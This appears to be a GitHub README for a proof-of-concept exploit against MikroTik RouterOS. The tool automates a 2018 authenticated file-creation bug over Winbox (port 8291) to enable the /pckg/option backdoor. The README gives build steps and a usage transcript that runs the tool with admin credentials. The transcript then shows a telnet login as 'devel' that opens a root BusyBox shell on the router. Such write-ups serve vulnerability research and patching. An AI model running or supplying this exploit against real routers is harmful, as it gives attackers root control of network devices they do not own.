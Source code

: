 # HackerFantastic Set Tracefile PoC over 8291

In December of 2018, [@HackerFantastic](https://twitter.com/hackerfantastic) dropped a [zero day](https://seclists.org/fulldisclosure/2018/Dec/28) that allows authenticated users to create arbitrary files on MikroTik's RouterOS. HackerFantastic pointed out that this was a create way to create the backdoor file on versions 3.x through 6.41.4. HF's PoC only showed how to manually exploit this vulnerability though. This PoC will automatically do it over the router's Winbox protocol.

This specific implementation only enables the /pckg/option backdoor (6.41 - 6.42.0).

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage Example

```sh
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ ./hf_tracefile -i 172.20.10.13 -p 8291 -u admin --password lolwat
Success!
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ telnet -l devel 172.20.10.13
Trying 172.20.10.13...
Connected to 172.20.10.13.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2018.04.05-06:39+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5-smp #1 SMP Thu Apr 5 06:24:36 UTC 2018 i686 unknown
# cat /rw/logs/VERSION 
v6.41.4 Apr/05/2018 12:23:55
# 
```
